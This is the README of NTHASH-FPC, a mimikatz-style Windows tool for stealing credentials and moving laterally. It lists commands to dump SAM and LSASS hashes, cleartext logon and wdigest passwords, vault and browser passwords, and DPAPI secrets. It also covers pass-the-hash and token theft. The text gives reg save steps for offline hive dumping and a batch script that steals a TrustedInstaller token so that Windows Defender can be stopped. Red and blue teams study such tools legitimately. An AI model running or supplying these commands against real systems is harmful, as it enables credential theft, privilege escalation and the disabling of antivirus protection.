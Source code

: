 # NTHASH-FPC <br/>
A tribute to https://github.com/gentilkiwi/mimikatz... <br/>
And generally speaking a tool to handle windows passwords and perform lateral movement. <br/>
https://attack.mitre.org/matrices/enterprise/windows/ is definitely worth reading as well. <br/>

<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /gethash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /dumphash /rid:123 [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /getlsakeys <br/>
NTHASH /wdigest <br/>
NTHASH /logonpasswords <br/>
NTHASH /pth /user:username /password:myhash /domain:mydomain <br/>
NTHASH /enumcred <br/>
NTHASH /enumcred2 <br/>
NTHASH /enumvault <br/>
NTHASH /chrome [/binary:path_to_database]<br/>
NTHASH /firefox [/binary:path_to_database]<br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runas [/binary: x:\folder\bin.exe] <br/>
NTHASH /runts /user:session_id [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /killproc /pid:12345 <br/>
NTHASH /enummod /pid:12345 <br/>
NTHASH /dumpprocess /pid:12345 <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<br/>

<b>changentlm</b>, using a legacy api, may not work if your ntlm hashes are encrypted with AES (i.e starting with win10 1607. <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>setntlm</b> on the other hand should always work and allow one to bypass password policy.  <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>dumpsam</b> will temporarily patch a module in lsass to be able to dump your SAM ntlm hashes from the lsass memory (need to cover/test as many windows version as possible). <br/>

<b>dumphash and dumphashes</b> will read the registry - you need to run as system to perform this action <br/>.
Or you can use the /system switch <br/>.
You can also perform this offline (and then no longer require to run as system). <br/>
You can use reg save hklm\sam sam.sav and reg save hklm\system system.sav to generate offline hives. <br/>
Both the RC4 and AES cipher are supported. <br/>
https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/ is a must read to understand RC4 vs AES. <br/>

<b>cryptunprotectdata and cryptprotectdata</b>  will decrypt datas using dpapi under the runnin user context. <br/>
You can for example decrypt the wireless stored password in C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{INTERFACE UUID} .<br/>
Retrieve the xml keyMaterial value and run nthash /cryptunprotectdata /input:keymateriel /system .<br/> 
Note that this data is encrypted/decrypted under the system account. <br/>

<b>enumcred</b> will use CredEnumerate windows API to enumerate the logged on user credentials. <br/>
<b>enumcred2</b> will use CredEnumerate windows API to enumerate the logged on user credentials while also patching lsass to dump all credentials <br/>

<b>enumvault</b> will use vaultcli.dll windows API to enumerate the logged on user vault credentials. <br/>

<b>logonpasswords</b> will dump lsasrv logon sessions primary credentials (hashes) and credential managers (clear text) <br/>

<b>wdigest</b> will dump wdigest sessions credentials (clear text) <br/>

<b>runastoken</b> can be used to run a process under a system account. <br/>
Once under a system account, you can also "steal" a token from trustedinstaller (net start trustedinstaller before hand. <br/>
Note that you can steal a trustedinstaller token directly by using the /system switch. <br/>
With a trustedinstaller token, you can perform actions like stop windefend (or kill the process, or modify the AV settings, etc). <br/>
See example below where you would start the trustedinstaller service, retrieve its pid and run a process as the account. <br/>
<i>
@echo off <br/>
net start trustedinstaller <br/>
for /F "tokens=1" %%K in ('
   nthash-win64 /enumproc ^| findstr /i "trustedinstaller"
') do (
   nthash-win64 /runastoken /pid:%%K /system
)
<br/>
  </i>

<b>runaschild</b> can be used to run a process as a child of another existing/parent process. <br/>
Note that some apps (like cmd.exe) will crash right after initialization with a c0000142. <br/>
Wierdly enough, loading notepad.exe with this method and then launching cmd.exe from there works...

<b>runas</b> will launch a process in elevated mode. <br/>

<b>runts</b> will launch a process in the context of another TS session. <br/>
Note that this one needs the setcbprivilege so you will have to find a token with such privilege first (like winlogon.exe). <br/>

todo/news: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum Lsasrv.dll!LogonSessionList: done in 1.3 <br/>
-enum Wdigest.dll!l_LogSessList: done in 1.3 <br/>
-decrypt dpapi encrypted vault and/or credentials : done in 1.4 <br/>
-patch LogonSessionList and perform pth: done in 1.4 <br/>
-decrypt chrome and firefox passwords: done in 1.4 <br/>

